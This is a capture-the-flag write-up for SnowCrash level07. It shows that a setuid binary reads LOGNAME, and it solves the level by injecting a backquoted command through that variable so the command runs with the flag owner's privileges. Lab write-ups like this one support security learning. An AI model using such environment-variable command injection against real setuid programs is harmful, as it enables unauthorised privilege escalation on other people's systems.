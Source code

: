 # Level07

## Research
--------------

```bash
level07@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

```bash
level07@SnowCrash:~$ strings level07
[...]
LOGNAME
[...]
```
The program level07 seems to get the environment variable LOGNAME. </br>

`In computer software, logname (stands for Login Name) is a program in Unix and Unix-like operating systems that prints the name of the user who is currently logged in on the terminal. It usually corresponds to the LOGNAME variable in the system-state environment (but this variable could have been modified).` </br>
https://en.wikipedia.org/wiki/Logname

## Solution
---------------

We can modify this variable to ```'`getflag`'``` so it will be taken as ``` `getflag` ``` in the env variable, and then level07 will execute what is in backquotes.</br>
https://book.hacktricks.xyz/pentesting-web/command-injection

```bash
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07
```
Gives the token.
